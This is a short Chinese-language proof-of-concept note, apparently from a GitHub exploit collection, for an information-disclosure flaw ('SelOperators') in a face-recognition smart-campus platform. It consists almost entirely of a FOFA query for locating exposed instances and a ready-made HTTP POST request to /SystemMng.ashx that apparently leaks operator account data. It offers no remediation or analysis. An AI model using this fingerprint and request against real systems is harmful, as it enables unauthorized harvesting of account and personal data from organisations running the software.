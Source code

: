 ## 脸爱云一脸通智慧平台SelOperators信息泄露漏洞

## fofa
```
body="View/UserReserved/UserReservedTest.aspx"
```

## poc
```
POST /SystemMng.ashx HTTP/1.1
Host: {{Hostname}}
Content-Length: 36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin&funcName=SelOperators
```

![3eaa4e853a17b1795bf485fb1cc1a852](../../images/846ddccb-4df2-4a8a-a3b0-e51ecb15a65d.png)
